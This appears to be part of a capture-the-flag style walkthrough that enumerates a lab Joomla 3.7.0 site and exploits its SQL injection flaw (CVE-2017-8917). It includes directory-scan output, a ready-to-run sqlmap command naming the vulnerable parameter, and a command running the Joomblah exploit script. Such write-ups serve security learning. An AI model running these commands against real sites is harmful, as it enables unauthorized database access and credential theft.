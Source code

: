 ```bash
/language             (Status: 301) [Size: 236] [--> http://10.10.15.95/language/]
/README.txt           (Status: 200) [Size: 4494]
/components           (Status: 301) [Size: 238] [--> http://10.10.15.95/components/]
/cache                (Status: 301) [Size: 233] [--> http://10.10.15.95/cache/]
/libraries            (Status: 301) [Size: 237] [--> http://10.10.15.95/libraries/]
/robots.txt           (Status: 200) [Size: 836]
/tmp                  (Status: 301) [Size: 231] [--> http://10.10.15.95/tmp/]
/LICENSE.txt          (Status: 200) [Size: 18092]
/layouts              (Status: 301) [Size: 235] [--> http://10.10.15.95/layouts/]
/administrator        (Status: 301) [Size: 241] [--> http://10.10.15.95/administrator/]
/htaccess.txt         (Status: 200) [Size: 3005]
/cli                  (Status: 301) [Size: 231] [--> http://10.10.15.95/cli/]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

- All the page is nothing except /administrator which we can go to the page login of administrator  and all file .txt
- Go to /administrator we have the page login name Joomla

![Untitled 1](https://github.com/user-attachments/assets/880d4a1d-f752-473b-872a-28b27d0be402)

- We can try other page /.txt to find more information about the Joomla!
- Go to /README.txt —> we have the version of Joomla! is 3.7.0

![Untitled 2](https://github.com/user-attachments/assets/96a0d090-e33a-4216-8abb-05e8ed550aeb)

- Now we can find the vuln about Joomla version 3.7.0 by exploit database

![Untitled 3](https://github.com/user-attachments/assets/d3bd3e6b-eb30-4994-936b-b15a65ac993c)

- We got the vuln Joomla 3.7 SQL Injection - CVE 2017-8917

![Untitled 4](https://github.com/user-attachments/assets/4fa43b27-4804-447b-bfd4-65debec70939)

- Now we have 2 options to exploit SQL Injection in this CVE. That is use tool SQLMap and use script python exploit CVE which we can research in github.
- Use SQLMap base exploit database:

```bash
sqlmap -u "http://<IPTarget>/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

—> But we have the problem that if we use SQLMap for this case, that will be not stable. If we attempt again and again sometimes it work or it doesn’t work so we prefer using a script python in this case to scan SQLi because that is more stabler than SQLMap.

- Use script Python, we can research this in github with CVE-2017-8917
- Got it!!! we find the script name Joomblah!. Now wget it and run script.

```bash
python3 jooblah.py http://<IP-Target>/
```
